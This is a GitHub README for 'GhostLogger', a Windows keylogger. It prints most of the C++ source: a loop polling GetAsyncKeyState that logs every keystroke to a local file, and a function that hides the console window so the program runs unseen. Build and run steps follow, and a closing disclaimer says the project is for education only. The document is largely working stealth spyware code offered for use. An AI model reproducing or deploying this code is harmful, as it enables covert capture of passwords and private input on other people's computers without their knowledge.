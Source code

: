 <img src="https://user-images.githubusercontent.com/73097560/115834477-dbab4500-a447-11eb-908a-139a6edaec5c.gif">

<div align="center">

# GhostLogger 👻🖥️

**Welcome to **GhostLogger**, a stealthy and efficient keylogging application for Windows! Designed for educational purposes and to demonstrate low-level Windows programming techniques, GhostLogger captures and records keystrokes in a hidden manner.**

</div>

<img src="https://user-images.githubusercontent.com/73097560/115834477-dbab4500-a447-11eb-908a-139a6edaec5c.gif">

## Features 🌟
- **Stealth Mode**: Runs invisibly in the background.
- **Comprehensive Key Logging**: Captures a wide range of keys, including alphabetic characters, numeric keys, function keys, control keys, and special characters.
- **Log File**: Records all keystrokes in `Record.txt`.

<img src="https://user-images.githubusercontent.com/73097560/115834477-dbab4500-a447-11eb-908a-139a6edaec5c.gif">

## Project Structure 📁
```
GhostLogger
├───.vscode
│   ├───c_cpp_properties.json
│   ├───settings.json
│   └───tasks.json
└───src
    ├───main.cpp
    └───Record.txt
```

<img src="https://user-images.githubusercontent.com/73097560/115834477-dbab4500-a447-11eb-908a-139a6edaec5c.gif">

## How It Works 🛠️
The main functionality is encapsulated in `main.cpp`, which includes the following key components:
- **KeyLogger**: A function that captures keystrokes using `GetAsyncKeyState` and writes them to `Record.txt`.
- **hide_exe**: A function that hides the console window to ensure the program runs `invisibly`.

<img src="https://user-images.githubusercontent.com/73097560/115834477-dbab4500-a447-11eb-908a-139a6edaec5c.gif">

### Code Overview 👨‍💻
Here's a brief look at the core code in `main.cpp`:

```cpp
#include <iostream>
#include <windows.h>
#include <winuser.h>
#include <fstream>

// Function prototypes
void KeyLogger(void);
void hide_exe(void);

// main function
int main(void)
{
    hide_exe();
    KeyLogger();
}

// function to capture the keystrokes
void KeyLogger(void)
{
    char character;

    while (true)
    {
        for (character = 8; character <= 222; character++)
        {
            if (GetAsyncKeyState(character) == -32767)
            {
                std::ofstream write("Record.txt", std::ios::app);
                if (character > 64 && character < 91 && !GetAsyncKeyState(0x10))
                {
                    character += 32;
                    write << character;
                }
                else if (character > 64 && character < 91)
                {
                    write << character;
                }

                switch (character)
                {
                    case 39: // '
                        write << (GetAsyncKeyState(0x10) ? "\"" : "'");
                        break;
                    case 44: // ,
                        write << (GetAsyncKeyState(0x10) ? "<" : ",");
                        break;
                    // ... handle other cases ...
                    case VK_RETURN: // ENTER key
                        write << " <Enter> " << std::endl;
                        break;
                    case 32: // Space key
                        write << " ";
                        break;
                    // ... handle other cases ...
                }
            }
        }
    }
}

// function to hide the exe file.
void hide_exe(void)
{
    HWND stealth;
    AllocConsole();
    stealth = FindWindowA("ConsoleWindowClass", NULL);
    ShowWindow(stealth, 0);
}
```

<img src="https://user-images.githubusercontent.com/73097560/115834477-dbab4500-a447-11eb-908a-139a6edaec5c.gif">

## Getting Started 🚀
To run GhostLogger on your machine, follow these steps for different operating systems:

### Windows
1. **Clone the Repository**:
   ```sh
   git clone https://github.com/B3TA-BLOCKER/GhostLogger.git
   ```

2. **Open and Edit the Code**:
   - Use any text editor of your choice (e.g., Notepad++, Sublime Text, Atom, or even Notepad).

3. **Compile and Run**:
   - Ensure you have a C++ compiler installed. You can use any of the following methods:

#### Using GCC (MinGW):

1. **Install MinGW**: Download and install MinGW from [MinGW website](http://www.mingw.org/).

2. **Compile the Code**:
   ```sh
   g++ src/main.cpp -o main
   ```

3. **Run the Program**:
   ```sh
   ./main
   ```

#### Using Visual Studio:

1. **Install Visual Studio**: Download and install Visual Studio from [Visual Studio website](https://visualstudio.microsoft.com/).

2. **Open the Project**:
   - Create a new project or open an existing one.
   - Add `main.cpp` to the project.

3. **Compile and Run**:
   - Use the build and run options within Visual Studio.

### macOS and Linux
**This project relies on `Windows-specific APIs` and functions, making it `incompatible` with macOS and Linux out of the box.** 
**As GhostLogger uses Windows-specific functions like `GetAsyncKeyState`, `AllocConsole`, and `FindWindowA`, it won't compile or run on macOS and Linux without significant modifications. The instructions above are for general C++ projects.**

<img src="https://user-images.githubusercontent.com/73097560/115834477-dbab4500-a447-11eb-908a-139a6edaec5c.gif">

## Usage ⚙️
- Once the program is running, it will operate in the background, logging all keystrokes to `Record.txt`.
- To stop the program, you will need to end the process through Task Manager or by terminating it via your development environment.

<img src="https://user-images.githubusercontent.com/73097560/115834477-dbab4500-a447-11eb-908a-139a6edaec5c.gif">

## Legal Disclaimer ⚖️
This project is intended for educational purposes only. Unauthorized use of keylogging software is illegal and unethical. Always ensure you have explicit permission before using this software on any device.

<img src="https://user-images.githubusercontent.com/73097560/115834477-dbab4500-a447-11eb-908a-139a6edaec5c.gif">

## Connect with Me 🌐
I'm always looking to expand my professional network and explore new opportunities. Let's connect!
- [LinkedIn](https://www.linkedin.com/in/hassaan-ali-bukhari/)
- [Email](mailto:hassaanalibukhari@gmail.com)

<img src="https://user-images.githubusercontent.com/73097560/115834477-dbab4500-a447-11eb-908a-139a6edaec5c.gif">

## License 📜
This project is licensed under the Creative Commons Zero v1.0 Universal License. See the [LICENSE](LICENSE) file for details.

<br>

<img src="https://user-images.githubusercontent.com/73097560/115834477-dbab4500-a447-11eb-908a-139a6edaec5c.gif">

Made by [Hassaan Ali Bukhari](https://github.com/B3TA-BLOCKER)
<br>
